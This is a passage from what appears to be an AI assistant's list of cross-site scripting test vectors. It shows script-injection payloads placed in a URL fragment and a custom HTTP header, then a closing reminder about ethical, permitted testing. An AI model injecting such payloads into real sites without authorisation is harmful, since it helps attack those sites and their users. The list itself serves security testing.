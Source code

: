 Fragment Identifier:

http://example.com/#<script>alert('XSS')</script>


53. Exploiting Insecure Headers

Custom HTTP Headers:

X-Custom-Header: <script>alert('XSS')</script>


Conclusion

Keep testing in various contexts, as different web technologies can change how XSS payloads behave.

Understanding how input is handled in different languages and frameworks can lead to discovering new vectors.

Always practice ethical hacking and ensure you have permission to test the systems.


Feel free to ask for further exploration into specific areas or techniques!






